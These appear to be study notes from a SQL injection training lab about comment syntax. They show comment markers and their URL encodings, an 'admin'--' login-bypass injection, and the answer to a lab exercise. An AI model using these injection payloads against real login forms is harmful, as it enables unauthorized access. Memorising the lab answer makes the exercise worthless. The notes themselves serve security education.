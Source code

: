 #### Comments

- \--
- \#

```shell-session
SELECT username FROM logins; -- Selects usernames from the logins table 
```
Note: In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at the end (-- -), to show the use of a space character.

```shell-session
SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.


Inject username: admin'--
```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

Answer to box: hello' OR id=5)-- 


